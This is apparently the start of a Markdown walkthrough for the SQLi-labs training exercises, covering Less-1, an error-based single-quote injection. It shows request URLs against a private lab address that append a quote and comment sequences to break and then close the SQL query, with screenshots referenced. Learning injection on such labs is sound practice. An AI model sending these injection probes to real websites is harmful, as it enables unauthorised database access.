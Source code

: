 

## Basic Challenges

基础练习一共22个课程  

### Less-1-GET - Error based - Single quotes-String

`http://10.101.177.100:9990/Less-1/?id=1`

`http://10.101.177.100:9990/Less-1/?id=1'`

![](assets/markdown-img-paste-20180417163321261.png)

`http://10.101.177.100:9990/Less-1/?id=1'--+`

![](assets/markdown-img-paste-20180417163520534.png)

`http://10.101.177.100:9990/Less-1/?id=1%27-- a`

![](assets/markdown-img-paste-20180417163452241.png)
